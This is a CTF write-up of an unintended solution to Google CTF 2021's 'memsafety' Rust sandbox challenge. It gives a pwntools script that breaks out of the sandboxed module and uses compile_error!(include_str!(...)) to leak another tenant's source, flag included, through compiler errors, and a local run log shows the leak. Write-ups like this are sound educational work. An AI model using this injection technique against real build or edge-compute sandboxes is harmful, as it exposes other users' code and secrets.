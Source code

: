 # Memsafety challenge

Task description:
```
Provide a snippet of Rust code to run as an app in our edge compute.
We created a sandbox that doesn't allow any unsafe code and limits
what can be run, so we can be sure the different apps are well
isolated.

⇥Attachment
memsafety.2021.ctfcompetition.com 1337
```
* The task was solved by 49 teams
* The attachment aka the "public" part that the CTF participants got can be seen here: https://github.com/google/google-ctf/tree/master/2021/quals/pwn-memsafety/attachments
* For intended solution and task sources see https://github.com/google/google-ctf/tree/master/2021/quals/pwn-memsafety


# Our unintended solution

TL;DR: We just finished the`pub mod user {` module and created another one that caused the compilation error and was not checked by the AST(?) nodes visitor sandbox/checker.

```python
from pwn import *

code = '''
    pub struct State();
    
    impl State {
        pub fn new() -> prelude::Box<dyn prelude::Service> {
            prelude::Box::new(State())
        }
    }

    impl prelude::Service for State {
        fn handle(&mut self, s: &str) {
            use prelude::*;
            prelude::log!("str={}", s);
        }
    }
}

pub mod bypass{
    pub fn foo() {
        compile_error!(include_str!("../../user-1/src/lib.rs"));
        // prelude::log!("LOL");
    }
'''
code += 'EOF'

if args.REMOTE:
    io = remote(args.HOST or 'memsafety.2021.ctfcompetition.com', args.PORT or 1337)
else:
    io = process('./chal.py')


io.recvuntil('===== Enter partial source for edge compute app (EOF to finish):\n')

io.sendline(code)

#io.shutdown('send')

print(io.recvall().decode())
```


Execution log (local, remote is down already):
```
(pwn) dc@ubuntu:~/gctf/pwn_memsafety$ python s.py 
[+] Starting local process './chal.py': pid 21043
[+] Receiving all data: Done (2.31KB)
[*] Process './chal.py' stopped with exit code 1 (pid 21043)
===== Input accepted!
===== Writing source to disk...
===== Building edge compute app...
   Compiling user-0 v0.1.0 (/home/dc/gctf/pwn_memsafety/sources/user-0)
error: /*
    Copyright 2021 Google LLC

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        https://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
*/
#![no_std]
use proc_sandbox::sandbox;

#[sandbox]
pub mod user {
    static FLAG: &'static str = "CTF{fake flag}";
    use prelude::{mem::ManuallyDrop, Service, Box, String};
    pub struct State(ManuallyDrop<String>);
    impl State {
        pub fn new() -> Box<dyn Service> {
            Box::new(State(ManuallyDrop::new(String::from(FLAG))))
        }
    }
    impl Service for State {
       fn handle(&mut self, _: &str) {}
    }
}

  --> user-0/src/lib.rs:26:9
   |
26 |         compile_error!(include_str!("../../user-1/src/lib.rs"));
   |         ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

warning: unused import: `prelude::*`
  --> user-0/src/lib.rs:18:17
   |
18 |             use prelude::*;
   |                 ^^^^^^^^^^
   |
   = note: `#[warn(unused_imports)]` on by default

error: aborting due to previous error; 1 warning emitted

error: could not compile `user-0`.

To learn more, run the command again with --verbose.
===== non-zero return code on compilation: 101
```
